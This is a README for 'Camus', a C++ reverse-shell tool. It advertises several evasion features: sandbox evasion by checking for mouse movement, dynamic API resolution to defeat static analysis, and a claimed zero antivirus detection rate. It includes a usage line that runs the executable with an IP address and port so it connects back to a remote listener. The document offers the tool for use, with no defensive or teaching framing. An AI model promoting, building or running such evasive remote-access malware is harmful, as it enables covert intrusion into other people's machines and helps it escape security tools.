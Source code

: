 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>


Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass some sandbox technologies through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555 <br /> <br />




[Notice] When you trying to test the tool remember to move the mouse cursor otherwise it would be terminated.



 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">
